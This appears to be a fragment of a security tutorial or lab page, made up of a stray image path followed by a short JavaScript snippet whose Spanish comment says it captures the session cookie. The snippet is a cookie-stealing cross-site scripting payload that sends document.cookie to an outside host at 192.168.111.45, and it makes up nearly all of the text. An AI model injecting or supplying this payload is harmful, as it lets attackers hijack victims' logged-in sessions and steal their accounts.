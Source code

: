 //Este script capta la cookie de sesión

var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.111.45/?cookie=' + document.cookie);
request.send();

